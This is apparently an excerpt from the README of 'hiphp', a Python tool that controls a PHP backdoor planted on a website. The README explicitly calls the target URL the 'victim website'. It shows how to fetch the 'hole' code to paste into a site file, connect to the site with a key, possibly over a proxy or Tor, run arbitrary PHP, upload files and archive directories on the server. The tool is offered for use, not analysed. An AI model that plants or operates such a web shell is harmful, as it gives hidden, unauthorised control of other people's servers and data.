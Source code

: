 ```bash
❯ pip install -r requirements.txt
❯ sudo python setup.py install

# Uninstall:
❯ pip uninstall hiphp
```

<p>click to see <a href="https://asciinema.org/a/a8DVPENs0gGfrPhBmUGRWPYZG">Demo</a></p><br>

<br>
<h2>Use hiphp As Script:</h2>
<h4>Script Usage:</h4>

```python
# install hiphp package:
# ❯ pip install hiphp

# import hiphp package:
from hiphp import *

# Connect:
p1=hiphp(key="<KEY*>",url="<URL*>",proxies="<PROXIES>",retu=<RETURN>)# Default: retu=False

# *       = All inputs must be entered.
# KEY     = The password used for encrypt HIPHP_HOLE_CODE.
# URL     = Victim website link.
# PROXIES = To use a proxy.
# RETURN  = True for return data as a string, false for print data in the console.
```

<h4>Script Examples:</h4>

```python
#START{
from hiphp import *

# Connect:
p1=hiphp(key="123",url="http://127.0.0.1/index.php")#Default: retu=False, proxies="".
#p1=hiphp(key="123",url="http://kfdjlkgjflkgjdfkjgkfdjgkjdfkgjk.onion/index.php")# If you use hiphp on .onion sites, you must run tor services or tor browser.
#p1=hiphp(key="123",url="https://localhost.com/vvv2.php")

# Get the hole Code:
p1.get_hole()# Copy this code into the file whose path you entered earlier. ex: https://localhost/index.php

# Example:1
# Command:
p1.run("echo 'this is a test';")

# Example:2
# Run code from file:
p1.run_file("./examples.php")# Run code from file.
p1.run_file("./examples.php","var1==true","var2==hiii")# Run code from file With the entry of variables.

# Example:3
# Upload a file:
p1.upload("./examples.php")# Upload a file to the current directory.
p1.upload("./examples.php","./upload_path/")# Upload a file to a specific directory.

# Example:4
# Compress a path:
p1.compress()# Compress the current directory.
p1.compress("./example/")# Compress a specific directory.

```